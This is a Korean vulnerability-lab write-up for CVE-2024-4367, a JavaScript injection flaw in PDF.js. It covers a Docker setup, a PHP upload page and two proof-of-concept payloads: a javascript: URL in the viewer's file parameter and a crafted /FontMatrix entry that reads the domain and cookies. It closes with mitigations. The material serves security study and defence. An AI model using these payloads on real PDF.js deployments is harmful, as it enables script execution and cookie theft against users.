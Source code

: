 # CVE-2024-4367
| whs 3기 이유진

[[ pull request url ]](https://github.com/gunh0/kr-vulhub/pull/298) [[ github repo url ]](https://github.com/gistraw0454/kr-vulhub/tree/main/pdfjs/CVE-2024-4367)

## 개요
PDF.js는 HTML5로 구축된 PDF(Portable Document Format) 뷰어입니다.

4.1.392 이전 PDF.js 버전에서 JavaScript 코드 삽입 취약점이 발견되었습니다. 이 취약점을 악용하여 공격자는 악성 PDF 파일을 여는 즉시 임의의 JavaScript 코드를 실행할 수 있다.

Mozilla에서 개발 및 관리하는 자바스크립트 기반의 pdf 뷰어인 PDF.js 라이브러리에 존재하는 XSS(크로스사이트 스크립팅) 취약점으로 **crafted URL(조작된 URL)**을 통해 PDF.js 뷰어 안에서 임의의 스크립트를 실행할 수 있다.

## 환경 구축

### docker-compose.yml
```
version: '2'
services:
 web:
   image: vulhub/pdfjs:4.1.392
   volumes:
    - ./index.php:/var/www/html/index.php
   ports:
    - "8080:80"
```

### 테스트 환경 만들기
```
docker compose up -d
```

### 페이지 접속 하기
`http://your-ip:8080` 를 통해 페이지에 접속할 수 있다.
![page](./1.png)

### index.php
PDF 파일을 업로드 받고, 업로드가 완료되면 PDF.js 뷰어를 통해 업로드한 파일을 볼 수 있도록 리다이렉트 시키는 간단한 파일 업로드 페이지를 구현하였다.
```php
<?php
if (!empty($_FILES)):

// Check for errors
if($_FILES['file_upload']['error'] > 0){
    die('An error ocurred when uploading.');
}

// Check filesize
if(!is_uploaded_file($_FILES['file_upload']['tmp_name'])) {
    die('File is not uploaded file');
}

$ext = pathinfo($_FILES['file_upload']['name'], PATHINFO_EXTENSION);
if ($ext !== 'pdf') {
    die('Unsupported filetype uploaded.');
}

$new_name = uniqid() . '.pdf';
if(!move_uploaded_file($_FILES['file_upload']['tmp_name'], __DIR__ . '/upload/' . $new_name)){
    die('Error uploading file - check destination is writeable.');
}

header('Location: /web/viewer.html?file=../upload/' . $new_name, true, 302);
exit;
else:
?>
<form method="post" enctype="multipart/form-data">
    File: <input type="file" name="file_upload">
    <input type="submit">
</form>
<?php
endif;
```

- `header('Location: /web/viewer.html?file=../upload/' . $new_name, true, 302);` 부분을 통해 브라우저를 `/seb/viewer.html`로 리다이렉트한다.
- `enctype="multipart/form-data"` 설정을 통해 파일 업로드를 할 수 있도록 한다.
    - 파일 저장위치는 `upload/` 이고, `uniqid()`를 통해 고유 ID를 사용한다.

| PDF.js를 이용하여 PDF를 열람시켜주는 웹 서버이며, URL인코딩 등 검증이 미흡함. `viewer.html?file=` 파라미터를 통해 조작이 가능하며, 사용자가 공격자가 보낸 링크를 클릭하거나 악성 pdf를 열람할 수 있다.

## PoC

1. Crafted URL을 통한 XSS
```
http://your-ip:8080/web/viewer.html?file=javascript:alert(document.domain)
```
- file 파라미터에 `javascript:` 를 삽입하여 PDF.js가 이를 실행하도록 만들 수 있다. 
    - alert(document.domain) 실행

2. 악성 PDF 파일을 통한 XSS (poc.pdf)
```
/FontMatrix [0.1 0 0 0.1 0 (1\); \nalert('document.domain: '+window.document.domain+'\nlocation: '+window.location+'\ncookie: '+window.document.cookie)]
```
- pdf 내부 `/FontMatrix` 에 자바스크립트 삽입
    - FontMatrix는 폰트의 변환 행렬을 지정하는 부분인데, 처음 앞부분은 정상적으로 삽입하여 정상적인 행렬 수치로 해석하게 한 후, 6번째 실수부분을 문자열을 삽입한다.
        - 파서가 숫자가 아니라 문자열로 해석하거나 구문오류를 무시하고 실행하는 경우 해당 부분이 실행되게 된다.
    - 텍스트 렌더링 과정에서 `/FontMatrix`를 파싱하여 삽입된 스크립트 실행 가능

즉, 원래 숫자만 와야 하는 /FontMatrix 마지막 자리에 JavaScript 코드를 몰래 심어 브라우저를 조종하는 기법이다.

![page](./2.png)
index.php 업로드 폼에 악성 pdf 삽입한 결과

## 결론
이 취약점을 악용하면 PDF.js가 파일을 여는 과정에서 JavaScript가 실행되며, 이때 실행 컨텍스트는 일반적인 `file://` 이 아닌` resource://pdf.js`로 설정된다.
이를 통해 공격자는 사용자가 열람 중인 PDF 파일의 실제 경로(window.PDFViewerApplication.url)를 알아내거나, 파일 다운로드 유도가 가능하다.

특히 PDF.js를 내장한 Electron 애플리케이션에서는 샌드박싱이 제대로 되어 있지 않을 경우, 네이티브 코드 실행(RCE)까지 이어질 수 있다.

PDF.js 설정에서 isEvalSupported를 false로 설정하여 위험한 코드 경로를 비활성화하고, 강력한 Content Security Policy(CSP) 를 적용하여 unsafe-eval을 차단할 필요가 있다.

## 출처
https://github.com/vulhub/vulhub/tree/master/pdfjs/CVE-2024-4367
https://hackyboiz.github.io/2024/05/22/pwndorei/2024-05-22/